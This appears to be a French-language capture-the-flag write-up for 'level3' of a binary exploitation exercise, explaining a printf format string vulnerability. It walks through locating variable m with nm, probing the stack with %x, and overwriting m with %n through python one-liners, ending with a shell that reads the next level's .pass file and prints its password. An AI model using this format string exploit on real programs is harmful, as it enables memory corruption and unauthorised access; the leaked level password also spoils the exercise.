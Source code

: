 ```
▄▄▄     ▄▄▄▄▄▄▄ ▄▄   ▄▄ ▄▄▄▄▄▄▄ ▄▄▄        ▄▄▄▄▄▄▄ 
█   █   █       █  █ █  █       █   █      █       █
█   █   █    ▄▄▄█  █▄█  █    ▄▄▄█   █      █▄▄▄    █
█   █   █   █▄▄▄█       █   █▄▄▄█   █       ▄▄▄█   █
█   █▄▄▄█    ▄▄▄█       █    ▄▄▄█   █▄▄▄   █▄▄▄    █
█       █   █▄▄▄ █     ██   █▄▄▄█       █   ▄▄▄█   █
█▄▄▄▄▄▄▄█▄▄▄▄▄▄▄█ █▄▄▄█ █▄▄▄▄▄▄▄█▄▄▄▄▄▄▄█  █▄▄▄▄▄▄▄█
```

- [Tuto](https://nikhilh20.medium.com/format-string-exploit-ccefad8fd66b)
- Ici la vulnerabilité est que le format de printf peut etre modifier avec gets
```
$> ./level3
%d
512
```
- On regarde ensuite qu'elle est l'addresse de la fonction m. Que l'on veux overwrite.

<pre>
$> nm level3
<strong>0804988c</strong> B m
</pre>

- On regarde à combien de %x il faut pour trouver l'adresse print.

<pre>
$> (python -c "print ('AAAA' + '\x8c\x98\x04\x08' + '%x '*5)") | ./level3
AAAA200 b7fd1ac0 b7ff37d0 <strong>41414141 804988c</strong>
</pre>
- Il suffit d'utiliser `%n` qui permet d'ecrire le nombre de caractere d'avant dans la variable (ici 0x0804988c) 
```
(python -c "print ('AAAA' + '\x8c\x98\x04\x08' + '%x '*4 + 'A'*25 + '%n')"; cat) | ./level3
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
